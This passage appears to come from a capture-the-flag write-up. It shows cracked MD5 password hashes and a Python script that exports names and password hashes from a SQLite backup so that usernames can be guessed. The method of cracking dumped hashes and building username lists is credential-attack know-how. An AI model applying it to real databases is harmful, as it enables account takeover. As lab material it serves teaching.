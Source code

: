 All 50 hashes were successfully cracked and stored into `cracked.txt`.

```bash
$ cat cracked.txt

78842815248300fa6ae79f7776a5080a:jonathan
6ebe76c9fb411be97b3b0d48b791a7c9:987654321
df53ca268240ca76670c8566ee54568a:computer
008c5926ca861023c1d2a36653fd88e2:whatever                                             
8621ffdbc5698829397d97767ac13db3:dragon 
282bbbfb69da08d03ff4bcf34a94bc53:vanessa                                              
2dccd1ab3e03990aea77359831c85ca2:cookie
cf9ee5bcb36b4936dd7064ee9b2f139e:naruto 
6b1628b016dff46e6fa35684be6acc96:summer
de1e3b0952476aae6888f98ea0e4ac11:sweety 
e1964798cfe86e914af895f8d0291812:spongebob

[** SNIP **]
```

Now we have the passwords but we don't know the usernames of the users. But it's common for users to use either their first-name or last-name as usernames.

Thus, let's export the data from the DB file into a `.txt` file with entries in the format of  - `first_name:last_name:password_hash`.

```py
import sqlite3

# Connect to the SQLite database
conn = sqlite3.connect('backup.db')
cursor = conn.cursor()

# Execute a query to fetch all rows from the "frontiers" table
cursor.execute("SELECT first_name, last_name, password FROM frontiers")

# Open a text file to write the results
with open('users.txt', 'w') as f:
    # Iterate through each row and write it to the file in the desired format
    for row in cursor.fetchall():
        first_name = row[0].lower()  # Convert first_name to lowercase
        last_name = row[1].lower()   # Convert last_name to lowercase
        f.write(f"{first_name}:{last_name}:{row[2]}\n")

# Close the database connection
conn.close()
```

The `users.txt` file looks like - 

```bash
$ cat users.txt
                                                                
jax:blackstone:0691df26da82d6eb2e5da8924628db63
colt:dray:ae0eea6eb6d63f98da42de867c47a0f8 
ember:frost:680e89809965ec41e64dc7e447f175ab
kael:stark:f63f4fbc9f8c85d409f2f59f2b9e12d5 
nova:voss:dba0079f1cb3a3b56e102dd5e04fa2af 
vira:wyler:968c58d88d981b4ee15e2c8cb1fab06d
zane:korr:a90f4589534f75e93dbccd20329ed946

[** SNIP **]
```

